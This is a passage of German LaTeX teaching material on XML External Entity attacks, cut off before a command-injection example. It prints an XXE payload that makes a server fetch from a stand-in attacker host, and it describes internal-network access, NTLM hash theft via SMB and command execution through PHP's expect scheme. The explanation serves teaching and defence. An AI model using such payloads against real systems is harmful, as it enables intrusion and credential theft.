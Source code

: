 Ebenso kann auf eine Netzwerkadresse verwiesen werden:

\begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >
]>
<foo>&xxe;</foo>
\end{verbatim}

In diesem Beispiel kann der Angreifer den XML-verarbeitenden Server dazu bringen, mittels HTTP GET auf die übergebene URL (\url{http://www.attacker.com/text.txt}) zuzugreifen. Dadurch ergeben sich mehrere Angriffsmöglichkeiten:

\begin{itemize}
	\item Der Angreifer kann den Webserver zum ``Besuch'' einer Webseite bringen, bei diesem Besuch wird zumeist auch die öffentliche IP-Adresse des Webservers auf dem besuchten Webserver vermerkt. Bei Inhalten die z. B. gegen das Verbotsgesetz verstoßen kann dies negative Publicity für den Betreiber des XML-verarbeitenden Webservers bewirken.
	\item Da der Zugriff vom XML-verarbeitenden Server ausgeht, kann der Angreifer einen HTTP GET Request auf interne Server absetzen, die ansonsten durch eine initiale Firewall blockiert gewesen wären.
	\item Der Angreifer kann ebenso auf \textit{localhost}, sprich dem eigenen Server, zugreifen. Häufig werden interne Administrationsprogramme so konfiguriert, dass diese nur auf Localhost lauschen (als Sicherheitsmassname um remote Angreifern den Zugriff zu unterbinden). Im Zuge eines XML External Entity basierten Angriffs kann ein Angreifer diesen Schutz aushebeln und direkt auf localhost zugreifen.
	\item Bei einigen Protokollen (http, smb, cifs) werden automatisch Tokens und Credentials vom XML-verarbeitenden Server aus zum Zielserver verschickt. Ein Angreifer kann dies z. B. missbrauchen um bei einem Windows-basierten Server via SMB NTLM-Hashes zu extrahieren und gegen diese offline einen Brute-Force Angriff durchzuführen.
\end{itemize}

Ein XML External Entity kann auch auf virtuelle Adressen verweisen. So wird z. B. vom PHP XML Parser als Schema \textit{expect} angeboten. Bei diesem Schema wird die übergebene URL als Systemkommando ausgeführt und dessen Ergebnis in das XML-Dokument eingefügt. Ein Angreifer kann dies missbrauchen um Systemkommands (Command Injection) auszuführen:

